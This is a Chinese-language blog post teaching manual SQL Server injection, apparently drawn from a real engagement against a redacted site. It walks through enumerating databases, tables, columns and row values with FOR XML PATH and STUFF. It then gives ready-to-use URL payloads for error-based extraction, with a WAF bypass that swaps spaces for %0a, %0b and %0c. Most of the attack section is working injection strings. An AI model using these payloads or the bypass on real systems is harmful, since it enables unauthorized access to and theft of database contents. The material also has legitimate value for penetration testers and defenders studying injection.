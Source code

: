```yaml
---
layout: post
title:  "SQL-Server-SQL-Inject"
---
```

---
## 背景
某次xx，遇到了一处SQL Server 的注入点，由于平时碰到的SQL Server数据库比较少，所以本文将详细讲解SQL Server的手工注入及其技巧。

---

## 思路
一般SQL注入都是先查库名再查表名最后查字段，查到字段之后就可以查到里面的数据了。
那么我们先查第一个库名:
```sql
SELECT top 1 Name FROM Master..SysDatabases
```
返回
<code>master</code>

这里返回的第一个数据库master是系统库，SQL Server总共有五个系统数据库，其说明如下:   

| 系统数据库    | 说明|
|:----------|:---------------|
|master    |记录SQL Server 系统的所有系统级信息的数据库|
|msdb|SQL Server 代理用来安排警报和作业以及记录操作员信息的数据库。 msdb 还包含历史记录表，例如备份和还原历史记录表|
|model|在SQL Server 实例上为所有数据库创建的模板。|
|Resource|包含 SQL Server 2005 或更高版本附带的所有系统对象副本的只读数据库|
|tempdb|用于保存临时或中间结果集的工作空间。 每次启动 SQL Server 实例时都会重新创建此数据库。 服务器实例关闭时，将永久删除 tempdb 中的所有数据。|   

摘自
https://docs.microsoft.com/zh-cn/previous-versions/sql/sql-server-2012/ms190190(v=sql.110)


那么我们继续查第二个库，在SQL Server中跟MYSQL不同，如果是在MYSQL中我们可以用 limit 去查，在SQL Server中需要加 not in ('库名1','库名2',.....)去排除里面的集合

第二个库:
```sql
SELECT top 1 Name FROM Master..SysDatabases where name not in ('master')
```
返回
```sql
model
```
那么以此类推，我们就可以得到所有库名。
但是如果后面的集合越来越大，这样去查并不是最有效率的，虽然说查库名可能没有感觉，但如果是表名呢？ 这样查到后面的集合无疑是越来越大，当然，我们在数据库中可以更改 top 后面的数值去查询多条:
```sql
SELECT top 5 Name FROM Master..SysDatabases
```
返回:

||Name|  
|---|---|  
|1|master|  
|2|tempdb|  
|3|model|  
|4|msdb|  
|5|xxx|  

实战的情况往往是不行的，因为用 top 去查返回的会是多行数据，而一般的注入点返回的只是单行，用这种方法返回的多个数据无法显示在单行，所以我们不能用这种方法去查。
在参考了倾旋的文章:
https://payloads.online/archivers/2020-03-02/3#stuff%E4%B8%8Exml-path

还有国外的一篇文章:
https://www.sqlshack.com/for-xml-path-clause-in-sql-server/

发现了可以用 FOR XML PATH将SQL语句返回的多行数据合并成单行  
关于FOR XML PATH的文档：
https://docs.microsoft.com/zh-cn/sql/relational-databases/xml/for-xml-sql-server?view=sql-server-ver15  

>SELECT 查询将结果作为行集返回。 （可选操作）您可以通过在 SQL 查询中指定 FOR XML 子句，从而将该查询的正式结果作为 XML 来检索。 FOR XML 子句可以用在顶级查询和子查询中。 顶级 FOR XML 子句只能用在 SELECT 语句中。 而在子查询中，FOR XML 可以用在 INSERT、UPDATE 和 DELETE 语句中。 FOR XML 还可以用在赋值语句中。  

其中FOR XML有四种模式分别为
- RAW
- AUTO
- EXPLICIT
- PATH

这里我们可以用较为简单的PATH模式
`SELECT  Name from Master..SysDatabases  FOR  XML PATH`
返回
```sql
<row><Name>master</Name></row><row><Name>tempdb</Name></row><row><Name>model</Name></row><row><Name>msdb</Name></row>...
```

我们发现这里返回的数据变成了单行，现在我们要去掉row标签
```sql
SELECT  Name from Master..SysDatabases  FOR  XML PATH('')
```
返回
```sql
<Name>master</Name><Name>tempdb</Name><Name>model</Name>....
```
虽然说已经返回单行数据，但是有很多标签看着还是不舒服，参考了倾旋的方法，用 '，' 进行拼接，于是我们可以:
```sql
SELECT name+',' FROM(SELECT name from Master..SysDatabases) a  FOR  XML PATH('')
```
返回
```sql
master,tempdb,model,msdb,...
```
这样会更方便查看。
关于STUFF函数：
https://docs.microsoft.com/zh-cn/sql/t-sql/functions/stuff-transact-sql?view=sql-server-ver15

也可以通过STUFF函数进行拼接
```sql
SELECT STUFF((SELECT name+',' FROM(SELECT name from Master..SysDatabases) a  FOR  XML PATH('') ), 1,0, '')
```
返回和之前的是一样的，于是我在实测中便不采用这种方法。

---
## 实战

手工发现注入点,单引号报错:
```html
xxx.com?abc=1'
```

查版本：
```html
xxx.com?abc=a' and 1=(select @@version) and '1'='1
```
爆了版本的错误

于是接着注库名
```html
xxx.com?abc=a' and 1=(SELECT name+',' FROM(SELECT name from Master..SysDatabases)a FOR  XML PATH('')) and '1'='1
```
然后被waf给拦截了..
SQL Server数据库不像MYSQL有內联注释可以绕过很多软waf，所以考虑将payload变形，首先想到的是将特殊符号(单引号)进行urlencode，结果发现还是被拦截了，接着考虑将payload进行base64编码，结果发现这个注入点传递到数据库不支持base64编码。最后我将空格换成%0a,%0b，%0c等，成功绕过。
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%0aMaster..SysDatabases)%0a%0aFOR%0a%0aXML%0aPATH(%27%27))a%0aand%0a%271%27=%271
```
成功返回库名
接着开始注表名
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%0axxx.sys.all_objects%0awhere%0atype=%27U%27)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
```
成功返回表名

注字段名的语句，table_name指的是表名
```html
select name+',' from (SELECT Name FROM SysColumns WHERE id=Object_Id('table_name'))a for xml path('')
```
那么运用到实战:
```html
xxx.com?abc=a%27%0aand%0a1=(select%0aname%2b%27,%27%0afrom%0a(SELECT%0aName%0aFROM%0aSysColumns%0aWHERE%0aid=Object_Id(%27table_name%27))a%0afor%0axml%0apath(%27%27))%0aand%0a%271%27=%271
```


接着注字段的值
```html
SELECT column_name+',' FROM(SELECT column_name from dbo.table_name)a FOR  XML PATH('')
```
这里column_name指的是字段名,table_name指的是表名   <br>
运用到实战
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0atop%0a5%0acolumn_name%2b%27,%27%0aFROM(SELECT%0acolumn_name%0afrom%0adbo.table_name)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
```
成功注出前五条数据<br>


---
